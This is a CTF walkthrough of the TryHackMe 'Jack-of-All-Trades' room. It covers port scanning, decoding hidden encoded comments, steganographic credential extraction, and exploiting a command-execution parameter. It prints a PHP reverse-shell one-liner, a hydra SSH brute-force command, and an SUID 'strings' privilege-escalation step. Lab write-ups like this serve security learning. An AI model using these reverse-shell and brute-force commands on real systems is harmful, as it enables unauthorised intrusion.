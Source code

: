 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Jack-of-All-Trades
# DESCRIPTION       . Boot-to-root originally designed for Securi-Tay 2020
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/jackofalltrades
```

```
sudo nmap -sSVC -T5 -p- 10.10.63.6 -oN jack
```

```
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.10 (Debian)

80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13b7f0a114e2d32540ff4b9460c5003d (DSA)
|   2048 910cd643d940c388b1be350bbcb99088 (RSA)
|   256 a3fb09fb5080718f931f8d43971edcab (ECDSA)
|_  256 6521e74e7c5ae7bcc6ff68caf1cb75e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- :) Swapped the ports, I see. Firefox (probably other browsers too) denies traffic to known service ports.


> _This address uses a network port which is normally used for purposes other than Web browsing. Firefox has canceled the request for your protection._


- To allow port 22, open a new tab. In the url, type `config:about`. 

- Search for `network.security.ports.banned.override`. 

	- If it exists, add `,22` (no space before the comma) to the values already existing. 
	- If not, click on the `+` on the right side and create the rule. Add `22` as a value.


#### PORT 22 (yes, not SSH)


- At the end of the message, the user signed up as `Jack`, so we have a potential username.

- Check out the source code

```
!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->			
```

- That string is base64-encoded. Let's decode it.

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: {REDACTED}
```

- Going to the recovery page, I've got no result by using `jack` as the username with the password found earlier.

- In the source code I found

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```

- Which is base32 encoded. The result is in hex. After decoding from hex, the result is encoded using ROT13, so it needs another decoding before revealing the following message.

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The [link](https://en.wikipedia.org/wiki/Stegosauria) is the wikipedia page of a dinosaur. 

- I went down a rabbit hole here. So I was thinking that the username is probably some dinosaur name from that page ... so I've used `cewl` to craft a wordlist.

- Then, I wanted to use hydra with that, but there wasn't any error message desplayed when incorrect credentials were used, so I couldn't use the `http-post-form` feature of Hydra.

- Then, I wanted to do a time-based or event content-length check for each word ending in `*urus` (~91) and the password I had. 

- While I was scripting ... it hit me. The page is called **STEGO**sauria. The **STEGO**saurus image on the main page is called *STEGO.jpg* :|

- Ok, so I've downloaded the `stego.jpg` image and used `stegcrack --extract -sf` on it with the password I had

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- Alright. I've tried the same for `header.jpg` and `jackinthebox.jpg` and I was lucky with the first one.

```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: {REDACTED}
```

- Now, these are NOT the credentials for SSH. They're the credentials for the recovery page.

```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

- So we have the `?cmd=` parameter available to run commands.

- I've used the following reverse shell but encoded as URL

```
php -r '$sock=fsockopen("ip",3131);shell_exec("sh <&3 >&3 2>&3");'
```

- I wanted to check for SUID files after stabilised the shell as `www-data`, but I didn't had permission to use `find` so I took a look in `/home`.

- There I could find a password list for user `jack`. 

- Knowing that, I've used hydra to bruteforce his SSH credentials

```
hydra -l jack -P pl ssh://10.10.63.6 -s 80
```

```
[80][ssh] host: 10.10.63.6   login: jack   password: {REDACTED}>@
```

- The first flag is located in the `/home/jack/user.jpg` image. 

```
scp -P 80 jack@10.10.63.6:/home/jack/user.jpg user.jpg
```

- The second flag is located in `/root/root.txt`. 

- Looking for privilege escalation vectors, I've found out that `strings` binary has the SUID bit set. 

- We can leverage that to read `/root/root.txt` flag directly.


